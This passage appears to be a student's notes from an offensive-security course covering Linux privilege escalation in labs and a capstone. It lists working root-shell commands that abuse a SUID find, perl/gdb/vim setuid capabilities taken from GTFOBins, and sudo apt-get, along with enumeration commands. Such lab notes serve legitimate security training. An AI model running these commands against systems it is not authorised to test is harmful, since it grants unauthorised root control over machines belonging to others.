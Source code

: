 ```
Uid:	1000	0	0	0
```
Three zeros indicate root user. A normal user (e.g., joe) would have four `1000`s (`cat /proc/1131/status | grep Uid`)
#### If `find` is misconfigured w/ the SUID bit set, we can get a root shell by abusing the SUID program
```Shell
find /home/joe/Desktop -exec "/usr/bin/bash" -p \;
```
#### Manually Enumerating Capabilities
```Shell
/usr/sbin/getcap -r / 2>/dev/null
```
Output:
```
/usr/bin/ping = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
/usr/bin/perl5.28.1 = cap_setuid+ep
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
The two perl binaries standout, as they have setuid capabilities enabled
#### Getting a root shell through capabilities exploitation (found on GTFOBins)
```Shell
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```
#### For exercise 2, found `gdb` was a capability afforded to the user
```Shell
gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit
```
#### In capstone, found `/usr/bin/vim.basic` and used the following from GTFOBins:
```Shell
./usr/bin/vim.basic -c ':py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```
### 17.4.2. Abusing Sudo
#### Inspecting current user's sudo permissions
```Shell
sudo -l
```
#### Use GTFOBins to run commands. If failed due to insufficient permissions, check the syslog file (for tcpdump)
```Shell
cat /var/log/syslog | grep tcpdump
```
Shows AppArmor prevents it from executing
#### Check AppArmor status
```Shell
aa-status
```
#### Obtaining a root shell by abusing sudo permissions (for apt-get)
```Shell
sudo apt-get changelog apt
```
OR (used in lab 1):
```Shell
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```
#### Abusing sudo and gcc (lab 2)